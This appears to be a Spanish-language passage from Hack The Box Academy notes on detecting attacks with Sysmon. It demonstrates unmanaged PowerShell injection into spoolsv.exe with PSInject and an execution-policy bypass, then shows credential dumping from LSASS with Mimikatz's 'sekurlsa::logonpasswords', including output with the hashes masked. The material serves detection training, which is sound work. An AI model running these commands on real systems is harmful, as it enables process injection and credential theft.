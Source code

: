 Para mostrar la inyección de PowerShell no administrada, podemos inyectar un [DLL no administrada similar a PowerShell](https://github.com/leechristensen/UnmanagedPowerShell) en un proceso aleatorio, como `spoolsv.exe`. Podemos hacerlo utilizando el [Proyecto PSInject](https://github.com/EmpireProject/PSInject) de la siguiente manera.
```powershell
 powershell -ep bypass
 Import-Module .\Invoke-PSInject.ps1
 Invoke-PSInject -ProcId [Process ID of spoolsv.exe] -PoshCode "V3JpdGUtSG9zdCAiSGVsbG8sIEd1cnU5OSEi"
```
![Información sobre herramientas para spoolsv.exe que muestra la ruta del archivo, versión 10.0.19041.1288, firmada por Microsoft y asociada con el servicio Print Spooler.](https://academy.hackthebox.com/storage/modules/216/image27.png)

Después de la inyección, observamos que "`spoolsv.exe`" <mark style="background: #FF5582A6;">pasa de un estado no administrado a uno administrado</mark>.
![Información sobre herramientas para spoolsv.exe que muestra la ruta del archivo, versión 10.0.19041.1288, firmada por Microsoft, asociada con el servicio Print Spooler y administrada por .NETO.](https://academy.hackthebox.com/storage/modules/216/image28.png)

Además, haciendo referencia a la pestaña "*Módulos*" relacionada de `Process Hacker` y `Sysmon Event ID 7`, podemos <mark style="background: #FFB86CA6;">examinar la información de carga de las DLL para validar la presencia de las DLL mencionadas anteriormente</mark>.
![Ventana de propiedades para spoolsv.exe que muestra módulos como advapi32.dll, amsi.dll, APMon.dll, con direcciones base, tamaños y descripciones.](https://academy.hackthebox.com/storage/modules/216/image29.png) ![Evento Sysmon 7: Imagen cargada, ProcessID 2792, Image spoolsv.exe, ImageLoaded clr.dll, Microsoft .NET Runtime, firmado por Microsoft, Usuario NT AUTHORITY\SYSTEM.](https://academy.hackthebox.com/storage/modules/216/image30.png)

---

# Ejemplo de detección 3: Detección de dumping de credenciales
Una **herramienta ampliamente utilizada para el dumping de credenciales** es [Mimikatz](https://github.com/gentilkiwi/mimikatz), ofreciendo varios <mark style="background: #FFB8EBA6;">métodos para extraer credenciales de Windows</mark>. Un comando específico, "`sekurlsa::logonpasswords`", permite volcar hashes de contraseñas o, contraseñas de texto sin formato accediendo al [Servicio del Subsistema de la Autoridad de Seguridad Local (LSASS)](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service). `LSASS` es **responsable de administrar las credenciales de los usuarios y es un objetivo principal para herramientas de eliminación de credenciales** como *Mimikatz*.
```powershell
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1128191 (00000000:001136ff)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : DESKTOP-NU10MTO
Logon Server      : DESKTOP-NU10MTO
Logon Time        : 5/31/2023 4:14:41 PM
SID               : S-1-5-21-2712802632-2324259492-1677155984-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * NTLM     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
         * SHA1     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX0812156b
        tspkg :
        wdigest :
```